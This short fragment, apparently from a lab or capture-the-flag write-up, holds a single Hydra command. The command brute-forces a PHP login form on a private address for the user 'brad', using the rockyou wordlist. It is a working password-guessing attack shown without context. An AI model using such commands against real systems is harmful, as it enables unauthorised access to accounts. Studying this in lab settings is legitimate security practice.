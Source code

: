 
-----------


----------------

```bash
hydra -V -t 50 -l brad -P /usr/share/wordlists/rockyou.txt 192.168.1.129 http-form-post "/secrets/MK67IT044XYGGIIWLGS9.php:user=brad&password=^PASS^:Invalid Credentials" -f -I
```